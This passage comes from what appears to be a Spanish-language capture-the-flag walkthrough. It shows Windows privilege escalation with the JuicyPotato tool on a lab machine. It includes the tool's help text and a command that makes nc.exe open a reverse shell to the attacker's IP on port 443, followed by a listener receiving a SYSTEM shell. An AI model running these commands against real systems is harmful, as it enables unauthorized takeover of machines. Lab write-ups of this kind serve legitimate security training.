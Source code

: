 ```bash
PS C:\Windows\Temp\Privesc> dir


    Directory: C:\Windows\Temp\Privesc


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       10/11/2021   3:34 PM         347648 JP.exe                                                                
-a----       10/11/2021   3:38 PM          28160 nc.exe                                                                


PS C:\Windows\Temp\Privesc>
```

Ahora si ejecutamos nuestro archivo con el argumento `-a` para que nos entable una reverse shell, por lo que nos ponemos en escucha por puerto 443:

```bash
PS C:\Windows\Temp\Privesc> C:\Windows\Temp\Privesc\JP.exe
JuicyPotato v0.1 

Mandatory args: 
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args: 
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
PS C:\Windows\Temp\Privesc> 
PS C:\Windows\Temp\Privesc> C:\Windows\Temp\Privesc\JP.exe -t * -p C:\Windows\System32\cmd.exe -l 4444 -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd.exe 10.10.14.24 443"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
PS C:\Windows\Temp\Privesc>
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.63] 49686
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

C:\Windows\system32>
```
